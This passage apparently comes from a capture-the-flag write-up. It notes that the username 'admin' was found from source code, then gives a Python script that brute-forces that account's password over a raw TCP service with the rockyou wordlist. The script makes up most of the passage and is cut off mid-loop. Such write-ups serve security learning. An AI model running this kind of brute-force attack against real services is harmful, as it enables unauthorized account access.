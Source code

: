 Seeing this, we can discover the input using brute force, and it is **admin**. In this case, it was simple and did not require the use of a script. 

## Privilege Escalation
With the username, I brute-forced the password using Python:
```python
python3 script.py -u 10.10.x.x -p 8000 -w /usr/share/wordlists/rockyou.txt
```

```python

import socket
import time
import argparse

def connect_to_server(ip, port, timeout_value):
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client_socket.settimeout(timeout_value)
    try:
        client_socket.connect((ip, port))
        return client_socket
    except socket.error as e:
        return None

def send_and_receive(client_socket, data):
    try:
        client_socket.sendall(data.encode("utf-8") + b"\n")
        response = client_socket.recv(1024).decode("utf-8", errors='ignore')
        return response
    except socket.timeout:
        return "Timeout while waiting for server response"
    except socket.error as e:
        return f"Error in communication: {e}"

def read_passwords_from_file(file_path):
    try:
        with open(file_path, 'r', encoding='utf-8', errors='ignore') as file:
            passwords = [line.strip() for line in file.readlines()]
        return passwords
    except IOError as e:
        print(f"Error reading password file: {e}")
        return []

def brute_force(ip, port, wordlist, timeout_value=10):
    password_list = read_passwords_from_file(wordlist)
    
    for password in password_list:
        client_socket = connect_to_server(ip, port, timeout_value)
        if not client_socket:
            time.sleep(5)
            continue

        response = send_and_receive(client_socket, "admin")
        if "Password:" not in response:
            client_socket.close()
            time.sleep(5)
            continue

        response = send_and_receive(client_socket, password)
        
        if "Welcome Admin" in response:
            print(f"Password found: {password}")
            print(f"Server response: {response}")
            while True:
```